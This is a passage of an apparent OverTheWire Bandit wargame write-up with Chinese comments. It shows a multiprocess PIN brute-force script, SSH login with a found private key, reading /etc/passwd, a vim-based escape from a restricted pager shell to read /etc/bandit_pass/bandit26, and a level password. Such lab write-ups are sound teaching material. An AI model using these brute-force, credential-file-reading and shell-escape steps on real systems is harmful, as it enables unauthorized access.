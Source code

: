 ```py
if __name__=='__main__':
    p1 = Process(target = brute, args = (0,2500,))
    p2 = Process(target = brute, args = (2500,5000,))
    p3 = Process(target = brute, args = (5000,7500,))
    p4 = Process(target = brute, args = (7500,10000,))
    p1.start()
    p2.start()
    p3.start()
    p4.start()
```

started the brute function four times and assigned a pincode range to each process to speed up the task. After a short time the password for the next level appears.
- `SILENT=1` disables the `pwntools` output that appears every time a connection is established or closed.

---

## Bandit Level 25 → Level 26 `in move window use v to enter vim, :e /etc/bandit_pass/bandit26`
Level Goal
- Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not `/bin/bash`, but something else. Find out what it is, how it works and how to break out of it.

```py
# uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

# 家目录上面有一个bandit26.sshkey,
bandit25@bandit:~$ ls
bandit26.sshkeyhkey

bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
Could not create directory '/home/bandit25/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:98UL0ZWr85496EtCRkKlo20X3OPnyPSB5tB5RPbhczc.
Are you sure you want to continue connecting (yes/no)? n
Please type 'yes' or 'no': no
Host key verification failed.
bandit25@bandit:~$

# 用这个私钥文件去连接远程的主机, ssh -i bandit26.sshkey bandit26@localhost
# 发现连接直接被远程关闭了，加上-T 参数也没有用

# 题目也提示说这个用的是其他shell
bandit25@melinda:~$ ls -a
.   .bandit24.password  .bashrc  .profile
..  .bash_logout        .pin     bandit26.sshkey

# 查看其某用户用的什么shell 可以查看/etc/passwd。
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bandit25:x:11025:11025:bandit level 25:/home/bandit25:/bin/bash
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
# bandit26用户用到的shell就是/usr/bin/showtext

$ cat /usr/bin/showtext
#!/bin/sh
export TERM=linux
more ~/text.txt
exit 0

```